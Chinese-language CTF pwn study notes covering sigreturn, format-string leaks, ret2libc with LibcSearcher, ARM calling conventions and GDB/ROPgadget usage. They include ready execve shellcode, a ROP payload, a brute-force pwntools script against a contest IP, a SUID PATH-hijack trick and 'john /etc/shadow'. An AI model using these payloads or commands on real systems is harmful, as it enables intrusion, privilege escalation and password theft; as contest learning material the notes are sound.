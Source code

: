The flag is not here ~
- https://ctf-wiki.org/
- https://www.toolhelper.cn/Format/Cpp


## 32位的sigreturn调用号为119(0x77)，64位系统调用号为15(0xf)
对于 sigreturn 系统调用来说，在 64 位系统中，sigreturn 系统调用对应的系统调用号为 15，只需要 RAX=15，并且执行syscall 即可实现调用 syscall 调用。而 RAX 寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说 read函数的返回值为读取的字节数。
syscall ; ret : 0f 05 c3
![AgAABg_MH6J6RKLKGXhEMI3Pz7HUGG1z](https://github.com/user-attachments/assets/01cf6800-2f7a-4189-a389-f38d2b351705)

## /bin/sh = /sh = sh，效果一致
## ret到main会在原来的地方开栈
## nb
![AgAABg_MH6I8yCgZXfhOtbMsooC7P9iR](https://github.com/user-attachments/assets/1303e539-9510-45f3-8bf6-0e536b60ddbf)

## fmt读flag
在有pie的情况下可以找(泄露)elf中的某个函数的真实地址来获取pie基址从而获得flag真实地址（类似libc），然后再通过fmt的%s读取（b'flag%7$s'+p64(pie+flag_off)）
## strcmp可以使用\x00进行绕过？
from pwn import *
context(os = 'linux' ,arch = 'amd64' )
i = 0
while True :
        p = remote( '47.97.58.52' , 42000 )
        print ( '<<Times : ' , hex (i))
        p.sendafter( 'her thinking?' , b'\x00' * 0x30 )
        #0x30是read的上限
        try :
                p.recvuntil( "WOW,you can get her!" )
                p.interactive()
        except :
            i = i + 1
            p.close
            continue

## 如果是正常调用 system 函数(plt)，调用时会有一个对应retaddr
![AgAABg_MH6KnF36SJT5NkJubPU_Alyy1](https://github.com/user-attachments/assets/4fdf6244-0bf8-46a6-b8f2-a841b423466f)

## 泄露出可用的gadget偏移，同样使用libc_base+offset
one_gadget libc.so.6

## 沙箱
seccomp-tools dump ./pwn
![AgAABg_MH6LziJAY2hpGiLEQIl1rLBSA](https://github.com/user-attachments/assets/1973c8f5-e173-4983-8819-92edea087060)

![AgAABg_MH6JY_cvEM2NJHLVD95KFPp6m](https://github.com/user-attachments/assets/4378c491-314a-4a6e-98f6-291b121ae7f9)


x/wx w/gx

 
## 软链接
ln -s [exp] [/tmp/echo]之后执行具有suid权限(rwsr--r--中的s)的程序以获取对应用户权限，参考https://www.bilibili.com/video/BV1uM4y1Q7MY/?spm_id_from=pageDriver&vd_source=c525ce304f4270daa217d87f25619231
//exp.c
int main()
{
    system("/bin/bash");
}//gcc -o exp exp.c

 

## 在环境变量前后添加目录
export PATH=/tmp:$PATH
export PATH=$PATH:/tmp

 

## 常用的shellcode有：
32位:
sc=b'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'

这个shellcode只有23字节，短小精悍，适合放在栈中去执行
还有一种是通过pwntools生成(44字节)：
from pwn import *
shellcode=asm(shellcraft.sh())#32bit

 
64位：48字节
context(os='linux', arch='amd64')
sc=asm(shellcraft.amd64.sh())

 
## john命令破解密码hash
john /etc/shadow

 
## arm 下的函数调用约定
函数的第 1 ～ 4 个参数分别保存在 r0 ～ r3 寄存器中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 r0 中
![AgAABg_MH6II1QpYv6RHhoXowG6yIUqe](https://github.com/user-attachments/assets/5f95ce4b-2465-44e6-8a47-bd7c6baf182a)

arm 的 b/bl 等指令实现跳转; pc 寄存器相当于 x86 的 eip，保存下一条指令的地址，也是我们要控制的目标

#查看文件保护
checksec elf

#搜索关键语句或指令
ropgadget --binary 可执行文件 --string 'str'
ropgadget --binary elf --only 'pop|ret' | grep 'eax'


## pwndbg中使用vmmap查看地址权限
## flat([])函数拼接指令

## libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。
https://github.com/niklasb/libc-database ---------https://libc.rip/
https://github.com/lieanu/LibcSearcher
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")    

from LibcSearcher import LibcSearcher
libc = LibcSearcher('__libc_start_main', main_real_addr)
libcbase = main_real_addr - libc.dump('__libc_start_main')
sa = libcbase + libc.dump('system')
ba = libcbase + libc.dump('str_bin_sh')

pl=b'a'*(0x50+8)
pl+=p64(rdi)
pl+=p64(ba)
pl+=p64(ret)
pl+=p64(sa)
sl(pl)

## 一般默认函数的第一参数（仅64位？）
存入rdi寄存器（与位有关 edi、di、dil），第二个参数存入rsi寄存器（esi、si、sil） ，第三个放入rdx寄存器（edx、dx、dl）(
RDI, RSI, RDX, RCX, R8, R9, more on the stack

)
：所以在拼接system('/bin/sh')时，应当寻找rdi（64位）或edi（32位）寄存器并先将'/bin/sh'读取后+_system的地址，
即p64(rdi_ret_addr)+p64(binsh_addr)+p64(_system_addr)
## !!!!!!但通过系统中断（即int 0x80）的参数都存在e[a-d]x中，其中eax为系统调用号，e[b-d]x依次为三个参数

#cyclic+数字 指令可以生成任意长度的字符串
cyclic 200

#判断溢出点距离我们变量的底部位置有多少个长度，输入点到ret
cyclic -l +溢出的地址


execve("/bin/sh",NULL,NULL)
int 0x80

 ![AgAABg_MH6JITCTyBO9Dqbkb312rABiU](https://github.com/user-attachments/assets/fe1dad15-e4c4-4b4c-a0af-680d6ce53a47)


## 执行 strcmp 的时候，rdx 会被设置为将要被比较的字符串的长度

## 使用 sys_write 调用
即 int 80h 前 eax 为 4，ebx 为文件描述符 fd，stdout 的文件描述符为 1，ecx 为 buffer 的内存地址，edx 为 buffer 的长度
在调用 sys_read 系统调用前，修改 eax 为 3 自不必说，ebx 改为了 0 即 stdin，

